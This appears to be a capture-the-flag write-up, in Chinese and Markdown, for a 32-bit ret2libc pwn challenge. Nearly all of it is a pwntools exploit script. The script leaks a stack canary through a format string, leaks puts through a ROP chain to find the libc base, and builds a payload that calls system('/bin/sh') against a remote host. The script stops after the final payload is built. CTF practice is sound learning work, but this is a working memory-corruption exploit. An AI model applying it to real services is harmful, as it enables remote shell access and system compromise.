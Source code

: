 # PWN
## attachment-7-校内
简单的32位ret2libc，查询出libc版本为 libc6-i386_2.35-0ubuntu3.8_amd64
```python
from pwn import *
from wstube import websocket
import sys

context(arch='i386', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12400'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b* main
        ''')

elf = ELF(elf_path)
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
vlun = 0x8049210
p.sendlineafter(b'name?\n', b'%23$p')
p.recvuntil(b'\n')
canary = int(p.recv(10), 16)
log.info('canary: ' + hex(canary))

payload = b'a' * (0x4c - 0xc) + p32(canary) + b'a' * 0xc + p32(puts_plt) + p32(vlun) + p32(puts_got)
p.sendlineafter(b'password?\n', payload)
p.recv()
puts_addr = u32(p.recv(4))
log.info('puts_addr: ' + hex(puts_addr))
if local:
    libc = ELF("./libc.so.6")
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
else:
    # from LibcSearcher import LibcSearcher
    # libc = LibcSearcher('puts', puts_addr)
    # libc_base = puts_addr - libc.dump('puts')
    # system_addr = libc_base + libc.dump('system')
    # binsh_addr = libc_base + libc.dump('str_bin_sh')

    libc_base = puts_addr - 0x072880
    system_addr = libc_base + 0x47cd0
    binsh_addr = libc_base + 0x1b90d5


p.sendlineafter(b'name?\n', b'%23$p')
payload = p32(canary) * 20 + p32(system_addr) + p32(0) + p32(binsh_addr)
payload = b'\x00' * (0x40) + p32(canary) + b'\x00' * 0xc + p32(system_addr) + p32(0) + p32(binsh_addr)
```